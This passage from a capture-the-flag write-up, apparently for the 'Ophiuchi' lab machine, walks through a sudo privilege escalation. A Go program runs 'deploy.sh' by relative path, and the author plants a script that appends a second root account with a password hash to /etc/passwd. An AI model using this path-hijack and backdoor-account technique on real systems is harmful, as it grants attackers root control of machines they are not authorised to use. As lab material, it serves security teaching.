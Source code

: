 ```go
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

Enumerated contents of `/opt/wasm-functions/`:
```bash
admin@ophiuchi:~$ ls -al /opt/wasm-functions/
total 3928
drwxr-xr-x 3 root root    4096 Oct 14  2020 .
drwxr-xr-x 5 root root    4096 Oct 14  2020 ..
drwxr-xr-x 2 root root    4096 Oct 14  2020 backup
-rw-r--r-- 1 root root      88 Oct 14  2020 deploy.sh
-rwxr-xr-x 1 root root 2516736 Oct 14  2020 index
-rw-rw-r-- 1 root root     522 Oct 14  2020 index.go
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 main.wasm
```

What this script do is importing the `wasm` function from `github.com/wasmerio/wasmer-go/wasme`, reading a the `main.wasm` file, extracting the `info` field and controlling its value. In case info is different by *1* the script print an error message, otherwise it execute the `deploy.sh` script. What stands out is that **the script executes `delpoy.sh` without specifying the absolute path** of the file.
```go
...
func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")
		...
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
        ...
```
Relative path can be abused in order to execute arbitrary code from any user's writable path. By being able to control the flow of the program **it would be possible to execute an arbitrary script with elevated privileges**(thanks to sudo).

First of all, a **bash script that inject a second arbitrary root user** was created inside the user directory:
```bash
admin@ophiuchi:~$ echo '#!/bin/bash' > deploy.sh
admin@ophiuchi:~$ echo 'echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd' > deploy.sh
admin@ophiuchi:~$ cat deploy.sh
#!/bin/bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then the `main.wasm` file was searched and copied on the current directory in order to have the file which allows to control the data flow of the script:
```bash
admin@ophiuchi:/$ find / -name main.wasm 2>/dev/null
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
admin@ophiuchi:~$ cp /opt/wasm-functions/backup/main.wasm .
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```
Unfortunately the program returned "*Not ready to deploy*", meaning that the `main.wasm` file returned an info value different then 1.
